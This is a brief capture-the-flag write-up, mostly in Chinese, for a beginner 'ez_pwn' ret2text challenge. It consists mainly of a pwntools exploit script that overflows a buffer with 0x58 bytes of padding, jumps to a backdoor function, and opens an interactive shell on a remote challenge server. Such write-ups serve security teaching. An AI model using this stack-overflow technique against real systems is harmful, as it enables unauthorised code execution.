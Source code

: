CrazyCat pwn

# ez_pwn
一道简单的ret2text的题目
找到backdoors，找到溢出点就能获取shell。
exp:
```python
from pwn import *

context.log_level = 'debug'
local = False
if local:
	p = process('./ez_pwn')
	# pwnlib.gdb.attach(p, 'b *vulnerable')
else:
	p = remote('154.64.245.108', 33351)

backdoors = 0x4011ca
payload = b'a' * (0x50 + 0x8) + p64(backdoors)

p.sendlineafter(b'information:', payload)

p.interactive()
```
shell:
